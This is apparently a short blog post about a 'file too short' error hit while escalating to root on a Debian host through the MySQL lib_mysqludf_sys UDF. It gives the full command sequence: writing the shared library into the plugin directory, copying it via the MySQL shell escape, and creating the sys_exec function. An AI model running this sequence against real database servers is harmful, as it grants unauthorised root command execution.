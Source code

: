```yaml
---
title: "MySQL Error `file too short` when creating sys_exec function"
layout: post
published: true
---
```


I’ve recently encountered an interesting error “file too short” when escalating privileges on a Linux box via MySQL Library (lib_mysqludf_sys_64.so).

```bash
mysql> create table foo(line blob);
mysql> insert into foo values(load_file('/tmp/lib_mysqludf_sys_64.so'));

mysql> select * from foo into dumpfile '/usr/lib/mysql/plugin/lib_mysqludf_sys_64.so';

mysql> create function sys_exec returns integer soname 'lib_mysqludf_sys_64.so';

ERROR 1126 (HY000): Can't open shared library 'lib_mysqludf_sys_64.so' 
(errno: 11 /usr/lib/mysql/plugin/lib_mysqludf_sys_64.so: file too short)
```


Turned out that “SELECT … INTO DUMPFILE” clause did not write a library properly into plugins’ directory in “/usr/lib/mysql/plugin/” (the file size is 1)


### Solution
MySQL is running as root so we can try to copy the file manually via breaking into a shell 

```bash
mysql> \! cp lib_mysqludf_sys_64.so /usr/lib/mysql/plugin/

mysql> create function sys_exec returns integer soname 'lib_mysqludf_sys_64.so';
Query OK, 0 rows affected (0.00 sec)
```

### Software version details

- Database version MySQL 5.7.30 
- mysql process is running as a root
- OS: Debian 9.12 (stretch) x86_64

Cheers,</br>
bitsailor